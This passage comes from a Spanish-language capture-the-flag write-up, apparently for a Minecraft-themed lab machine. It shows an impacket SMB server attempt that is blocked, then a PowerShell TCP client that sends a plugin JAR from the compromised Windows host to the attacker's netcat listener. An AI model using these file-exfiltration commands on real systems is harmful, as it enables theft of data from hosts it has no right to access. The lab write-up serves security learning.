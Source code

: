 Podemos copiarlo a nuestro ordenador configurando un servidor SMB con la herramienta smbserver.py de impacket

```bash
❯ doas smbserver.py -smb2support shell .
doas (vzon@pwnedz0n) password: 
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Pero hay un problema…

```powershell
PS C:\users\svc_minecraft\server\plugins> copy playercounter-1.0-SNAPSHOT.jar \\10.10.14.92\uwu\playercounter.jar
copy : You can't access this shared folder because your organization's security policies block unauthenticated guest access. These policies help  
protect your PC from unsafe or malicious devices on the network.
At line:1 char:1
+ copy playercounter-1.0-SNAPSHOT.jar \\10.10.14.92\shell\playercounter.j ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Copy-Item], IOException
    + FullyQualifiedErrorId : System.IO.IOException,Microsoft.PowerShell.Commands.CopyItemCommand 
```

Así que tendremos que usar otra forma de copiar este jar a nuestro ordenador, una de ellas es simplemente programando un poco en PowerShell para crear un cliente TCP y enviar el fichero a nuestro netcat que almacenará lo que reciba en un fichero.

```powershell
$client = New-Object System.Net.Sockets.TcpClient
$client.Connect("10.10.14.92", 8443)
$stream = $client.GetStream()
$bytes = [System.IO.File]::ReadAllBytes("plugins\playercounter-1.0-SNAPSHOT.jar")
$stream.Write($bytes, 0, $bytes.Length)
$stream.Close()
```

```bash
❯ nc -lvnp 8443 > playercounter.jar
Listening on 0.0.0.0 8443
Connection received on 10.10.11.249 49733
❯ ls -la
total 63212
drwxr-xr-x  2 vzon vzon     4096 Jun 17 11:17 .
drwxr-xr-x 34 vzon vzon     4096 Jun 17 10:03 ..
-rw-r--r--  1 vzon vzon    11357 Apr 20 23:07 LICENSE
-rw-r--r--  1 vzon vzon    38563 Jun 17 10:43 MinecraftClient.backup.ini
-rw-r--r--  1 vzon vzon    38553 Jun 17 10:43 MinecraftClient.ini
-rw-r--r--  1 vzon vzon    13280 Apr 20 23:07 README.md
-rwxr-xr-x  1 vzon vzon 64587949 Jun 17 10:35 mcli
-rw-r--r--  1 vzon vzon     9996 Jun 17 11:10 playercounter.jar
-rw-r--r--  1 root root      649 Jun 17 10:23 service
❯ file playercounter.jar 
playercounter.jar: Java archive data (JAR)
```
